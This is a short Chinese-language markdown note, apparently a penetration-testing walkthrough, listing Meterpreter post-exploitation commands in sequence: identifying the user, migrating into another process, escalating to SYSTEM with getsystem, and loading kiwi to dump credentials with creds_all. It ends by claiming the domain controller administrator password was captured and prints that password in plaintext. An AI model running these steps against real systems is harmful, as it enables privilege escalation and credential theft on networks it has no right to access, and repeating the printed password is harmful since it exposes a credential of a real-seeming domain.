






## 获取当前用户信息

```
getuid
```


## 获取进程信息

```
getpid
ps
```




## 进程迁移

```
migrate 2936
getpid
```




## 提权

```
getsystem
```

提升至system权限


## hashdump

```
load kiwi
?
```



```
creds_all
getsystem
creds_all
```



尝试抓取，提示非system用户，getsystem后重新抓取



成功抓取域控管理员密码

```
zxcASDqw123!!
```

